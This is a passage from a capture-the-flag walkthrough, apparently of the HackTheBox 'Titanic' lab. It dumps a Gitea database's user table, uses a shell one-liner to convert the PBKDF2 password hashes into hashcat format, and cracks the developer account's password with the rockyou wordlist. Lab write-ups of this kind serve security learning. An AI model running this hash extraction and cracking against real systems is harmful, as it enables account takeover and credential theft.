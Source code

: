 ```

sqlite> .headers on
sqlite> select * from user;
id|lower_name|name|full_name|email|keep_email_private|email_notifications_preference|passwd|passwd_hash_algo|must_change_password|login_type|login_source|login_name|type|location|website|rands|salt|language|description|created_unix|updated_unix|last_login_unix|last_repo_visibility|max_repo_creation|is_active|is_admin|is_restricted|allow_git_hook|allow_import_local|allow_create_organization|prohibit_login|avatar|avatar_email|use_custom_avatar|num_followers|num_following|num_stars|num_repos|num_teams|num_members|visibility|repo_admin_change_team_access|diff_view_style|theme|keep_activity_private
1|administrator|administrator||root@titanic.htb|0|enabled|cba20ccf927d3ad0567b68161732d3fbca098ce886bbc923b4062a3960d459c08d2dfc063b2406ac9207c980c47c5d017136|pbkdf2$50000$50|0|0|0||0|||70a5bd0c1a5d23caa49030172cdcabdc|2d149e5fbd1b20cf31db3e3c6a28fc9b|en-US||1722595379|1722597477|1722597477|0|-1|1|1|0|0|0|1|0|2e1e70639ac6b0eecbdab4a3d19e0f44|root@titanic.htb|0|0|0|0|0|0|0|0|0||gitea-auto|0
2|developer|developer||developer@titanic.htb|0|enabled|e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56|pbkdf2$50000$50|0|0|0||0|||0ce6f07fc9b557bc070fa7bef76a0d15|8bf3e3452b78544f8bee9400d6936d34|en-US||1722595646|1722603397|1722603397|0|-1|1|0|0|0|0|1|0|e2d95b7e207e432f62f3508be406c11b|developer@titanic.htb|0|0|0|0|2|0|0|0|0||gitea-auto|0

```

Two long rows. I showed in [Compiled](/2024/12/14/htb-compiled.html#crack-gitea-hash) how to make a hash from this that can be cracked with `hashcat`. I’ll use the same command here:

```

oxdf@hacky$ sqlite3 gitea.db "select passwd,salt,name from user" | while read data; do digest=$(echo "$data" | cut -d'|' -f1 | xxd -r -p | base64); salt=$(echo "$data" | cut -d'|' -f2 | xxd -r -p | base64); name=$(echo $data | cut -d'|' -f 3); echo "${name}:sha256:50000:${salt}:${digest}"; done | tee gitea.hashes
administrator:sha256:50000:LRSeX70bIM8x2z48aij8mw==:y6IMz5J9OtBWe2gWFzLT+8oJjOiGu8kjtAYqOWDUWcCNLfwGOyQGrJIHyYDEfF0BcTY=
developer:sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=

```

#### Crack Hashes

I’ll run these into `hashcat` with `rockyou.txt` to see what comes out:

```

oxdf@corum:~/hackthebox/titanic-10.10.11.55$ hashcat gitea.hashes /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt --user
hashcat (v6.2.6) starting in autodetect mode
...[snip]...
Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

10900 | PBKDF2-HMAC-SHA256 | Generic KDF
...[snip]...
sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=:25282528
...[snip]...

```
